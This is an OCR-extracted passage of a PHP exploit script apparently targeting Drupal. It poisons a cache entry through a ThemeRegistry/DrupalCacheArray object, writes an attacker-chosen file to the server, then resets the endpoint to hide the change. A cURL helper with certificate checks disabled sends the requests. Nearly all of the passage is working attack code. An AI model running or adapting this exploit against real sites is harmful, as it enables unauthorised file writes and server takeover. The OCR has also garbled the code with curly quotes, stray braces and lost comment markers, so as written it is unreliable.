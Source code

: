     $this->storage = $storage;
    $this->keysToPersist = array_fill_keys(array_keys($storage), true);
    }
    }
    class ThemeRegistry Extends DrupalCacheArray {
    protected $persistable;
    protected $completeRegistry;
    }
    cache_poison($endpoint, $cache);
    Write the file
    $json = (array) $browser->post(TYPE_JSON, json_encode($file));
    Stage 3: Restore endpoint’s behaviour
    cache_reset($endpoint, $cache);
    if(!(isset($json[0]) && $json[0] === strlen($file[‘data’])))
    {
    e(“Failed to write file.”);
    }
    $file_url = $url . ‘/’ . $file[‘filename’];
    x(“File written: $file_url”);
    HTTP Browser
    class Browser
    {
    private $url;
    private $controller = CONTROLLER;
    private $action = ACTION;
    function __construct($url)
    {
    $this->url = $url;
    }
    function post($type, $data)
    {
    $headers = [
    “Accept: “ . TYPE_JSON,
    “Content-Type: $type”,
    “Content-Length: “ . strlen($data)
    ];
    $url = $this->url . ‘/’ . $this->controller . ‘/’ . $this->action;
    $s = curl_init();
    curl_setopt($s, CURLOPT_URL, $url);
    curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
    curl_setopt($s, CURLOPT_POST, 1);
    curl_setopt($s, CURLOPT_POSTFIELDS, $data);
    curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
    curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
    $output = curl_exec($s);
    $error = curl_error($s);
    curl_close($s);
    if($error)
    {
    e(“cURL: $error”);
    }
    return json_decode($output);
    }
    }
    Cache
    function cache_poison($endpoint, $cache)
    {
    $tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
    cache_edit($tr);
    }
    function cache_reset($endpoint, $cache)
    {
    $tr = new ThemeRegistry($cache, $endpoint, null, null);
